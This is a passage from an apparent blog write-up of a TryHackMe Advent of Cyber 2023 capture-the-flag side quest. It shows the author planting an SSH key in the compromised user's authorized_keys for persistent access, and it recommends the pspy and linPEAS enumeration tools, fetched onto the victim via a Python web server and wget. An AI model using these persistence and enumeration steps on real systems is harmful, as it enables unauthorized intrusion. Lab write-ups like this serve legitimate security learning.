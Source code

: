 I spent an unreasonable amount of time trying to do full enumerations.

![alt text](../../../assets/images/ctf/events/tryhackme-advent-of-cyber-23/2023-12-24-side-quest-4.md/2023-12-24-side-quest-4/image-19.png)

And it looks like there's no immediate sudo capabilities for our beloved McSkidy. We'll have to backburner that for a while.

```bash
$ echo "ssh-rsa <redacted>" >> /home/mcskidy/.ssh/authorized_keys
echo "ssh-rsa <redacted>" >> /home/mcskidy/.ssh/authorized_keys
$ exit
exit                                                                                                                
┌──(tokugero㉿kali)-[~/thm]
└─$ ssh mcskidy@10.10.219.148
The authenticity of host '10.10.219.148 (10.10.219.148)' can't be established.
ED25519 key fingerprint is SHA256:1ihhpXZNauh4CQNMsK3xDOE+ZxnZ+Ht9pNw9AL6Kqq8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.219.148' (ED25519) to the list of known hosts.
Last login: Wed Dec 13 18:15:09 2023 from 10.13.4.71
mcskidy@proddb:~$
```

In the meantime though, let's get a better shell while we're here. This might not be the most subtle breach of all time, but it'll be awful comfortable.

More Enumeration
I'm including these for completeness, though they're not entirely necessary to the rooting of this box. I just found that these tools were super neat and wanted to provide some details on a logical progression rather than an intuited one.

[GitHub - DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy)

This tool takes a PS poll every 100ms with color coding on userspace execution. I.E. Root = blue, McSkidy = pink, and now I can watch for sneaky cron jobs and subtle script behaviors.

[PEASS-ng/linPEAS at master · carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

This does everything I want to do on a system to understand it, and very loudly. There's a version for everyone and both of these are as simple to pop over as `scp` or a quick `python3 -m http.server` on the attack box to `wget` it over to the victim.
